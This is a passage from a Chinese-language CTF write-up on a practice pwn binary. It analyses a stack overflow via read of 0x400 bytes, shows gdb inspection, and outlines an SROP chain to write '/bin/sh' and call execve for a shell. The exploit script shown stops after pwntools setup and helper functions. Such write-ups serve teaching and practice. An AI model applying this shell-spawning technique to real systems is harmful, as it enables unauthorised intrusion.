 先系统调用write打印字符，之后再调用read进行读取0x400的内容，典型的栈溢出,然后在data段开辟了128大小的buf，可以用来写入数据

**gdb动调**

断点打在**sub\_401000()**

[![](assets/1701612132-1d98e90a302bffab77674488ff8ac7c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001631-6d991e30-3d19-1.png)

看一下写入栈的情况

```plain
x/8gx 0x7fffffffdf10
```

[![](assets/1701612132-35d77c01c65bc3a1f30382ff6fb4f2ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001636-703764ee-3d19-1.png)

发现无法泄露栈地址

这个时候就要采取第二种思路了，构造srop链，先构造一个伪造的栈空间将binsh写入data段，之后再进行一次srop调用execve()从而getshell

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

#p=remote("node4.buuoj.cn",26002)
p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
```